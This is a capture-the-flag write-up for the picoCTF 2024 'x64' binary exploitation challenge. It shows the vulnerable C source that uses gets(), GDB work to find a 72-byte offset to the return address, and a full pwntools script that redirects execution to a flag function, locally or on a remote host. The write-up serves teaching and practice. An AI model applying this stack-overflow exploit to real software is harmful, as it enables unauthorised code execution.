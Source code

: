 ```markup
Tags: Binary Exploitation, picoCTF2024, x64
Date: 2024-07-25
Difficulty: Easy
Duration: 1h
Author: Hunter0
```
## Description
Overflow x64 code
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the `flag` function in this ==program==. Download ==source==. `nc saturn.picoctf.net 55429`

Hints: 
1. Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.
2. Jump to the second instruction (the one after the first `push`) in the `flag` function, if you're getting mysterious segmentation faults.

---
## Writeup
Running the binary we can see, that user input is inserted to the program, the program then exits.
```bash
└─$ ./vuln                                                           
Welcome to 64-bit. Give me a string that gets you the flag: 
hello

```
Opening the vuln.c file, we can see that the main function is making a calling the vuln() function, here vuln() is taking user input through gets() with BUFFSIZE of 64. Besides that there is the interesting flag() function which opens flag.txt file.
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r"); // Flag file is opened here
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf); // vuln() uses gets with BUFSIZE 64
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln(); // main() is calling vuln()
  return 0;
}
```
gets() is a dangerous function that does not consider buffer size in stdin -> this is our overflow vector.
We can test by sending data that is larger than 64 bytes.
```bash
└─$ ./vuln                      
Welcome to 64-bit. Give me a string that gets you the flag: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./vuln
```
We witness a segmentation fault when we insert 70 bytes of 'A' char.
We can continue, by investigating our binary using GDB.
![](img/Pasted%20image%2020240726003508.png)
This is the assembly code of main(), here we see our call to vuln() is located at 0x401333 (32 bit) and the following instruction is located at 0x401338, this will be the return address when the stack frame for function call vuln() is created.
![](img/Pasted%20image%2020240726004137.png)
Here I set a breakpoint at when the vuln() function is called and second breakpoint after the gets() command in the vuln() function. Our purpose here is to first find the address of our buffer and the return address.
When running the debugger, we see that the first breakpoint is met, here information such as the location of the RSP register can be outline (0x7fffffffdd10), I also get the address of the flag() function as well (0x401236). 
![](img/Pasted%20image%2020240726005009.png)
Continuing the program, I input "AAAA" and the second breakpoint is reached, if we looked closely at the assembly code for function vuln(). We can see that `<vuln+12>` instruction `lea rax, rbp-0x40` this is allocating memory addresses for our variable, in this function the only variable is our buffer (so the address that RAX is storing must be the address to our input buffer). See image below.
![](img/Pasted%20image%2020240726005534.png)
Here we see that $rax contains the hex representation of "AAAA" which is 0x41414141, we also found here an interesting address 0x00401338 (which is the address to the next instruction in main) so this is the return address.
From here we can find our offset: 0x7fffffffdd08 - 0x7fffffffdcc0 = 0x48 (72) so the distance from the buffer to the return address is 72 bytes.
We can try to overflow, flood the register with 72 bytes 'A' and 4 bytes 'B'.
![](img/Pasted%20image%2020240726010907.png)
Here we can see that our stack has been overflowed and we have overflowed into the return_address, we can see that continuing the program register RIP is pointed to 0x42424242 ("BBBB"), now that we have located where the return address is we can attempt to point to 0x401236 which is where the flag() function is. Doing this will call the flag function which will give us the flag.
```python
import pwn
import argparse


parser = argparse.ArgumentParser()
parser.add_argument("choice", type=str, choices={"local", "remote"})
parser.add_argument("--target", "-t", type=str, required=False)
parser.add_argument("--port", "-p", type=int, default=0, required=False)

args = parser.parse_args()

elf = pwn.ELF("./vuln")

# Buffer overflow at 72 bytes
# The address of flag() function
new_rip = pwn.p64(elf.symbols["flag"])
return_main = pwn.p64(elf.symbols["main"])

print(new_rip)
print(pwn.p64(0x40123b))

#return_main = pwn.p64(elf.symbols["main"])

payload = b"".join(
        [
            b"A" * 72,
            pwn.p64(0x40123b),
            return_main,
        ]
    )

payload += b"\n"
if args.choice == "local":
    p = elf.process()

elif args.choice == "remote":
    if not args.target or not args.port:
        pwn.warning("Supply -t <target> -p <port>")
        exit()
    p = pwn.remote(args.target, args.port)

p.sendline(payload)
p.interactive()
```
The following exploit code is written, executing it will give us the flag.
![](img/Pasted%20image%2020240726011347.png)
